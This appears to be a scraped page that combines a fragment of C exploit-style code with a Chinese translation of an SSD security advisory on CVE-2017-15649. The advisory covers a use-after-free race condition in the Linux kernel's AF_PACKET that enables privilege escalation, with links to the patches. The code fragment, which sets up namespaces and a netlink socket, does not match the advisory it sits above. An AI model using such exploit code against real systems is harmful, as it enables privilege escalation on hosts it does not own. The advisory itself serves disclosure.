 ```
		exit(1);
	}
	if(unshare(CLONE_NEWNET) != 0) {
		perror("unshared(CLONE_NEWUSER)");
		exit(2);
	}
}
int main(int argc,char **argv)
{
    struct msg_policy *p;
    create_ns();

    create_nl_socket();
    p = init_policy_dump(100);
    do_setsockopt();
    send_msg(fd,&p->msg);
    p = init_policy_dump(1000);
    send_msg(fd,&p->msg);
    return 0;
}
```

# SSD安全公告–Linux内核AF_PACKET 释放后重用漏洞
**Want to get paid for a vulnerability similar to this one?**  
Contact us at: ssd@beyondsecurity.com  
See our full scope at: https://blogs.securiteam.com/index.php/product_scope

## 漏洞概要
以下安全公告描述了在Linux内核的AF_PACKET中存在的一个UAF漏洞，成功利用该漏洞可能导致权限提升。

AF_PACKET套接字”允许用户在设备驱动层发送或者接收数据包”。例如，用户可以在物理层之上实现自己的协议，或者嗅探包含以太网或更高层协议头的数据包。

## 漏洞提交者
一名独立的安全研究人员发现并向 Beyond Security 的 SSD 报告了该漏洞。

## 厂商响应
更新一

CVE:CVE-2017-15649

“该漏洞很可能已经通过以下方式修复了：

packet: 重新绑定fanout hook时保持绑定锁定 – http://patchwork.ozlabs.org/patch/813945/

与此相关，但未合并的是

packet:在packet_do_bind函数中，使用bind_lock测试fanout – http://patchwork.ozlabs.org/patch/818726/

我们验证了在v4.14-rc2上不会触发该漏洞，但在第一次commit(008ba2a13f2d)上测试成功。”

## 漏洞详细信息
该UAF漏洞是由于fanout_add(来自setsockopt)和AF_PACKET套接字之间竞争条件导致的。
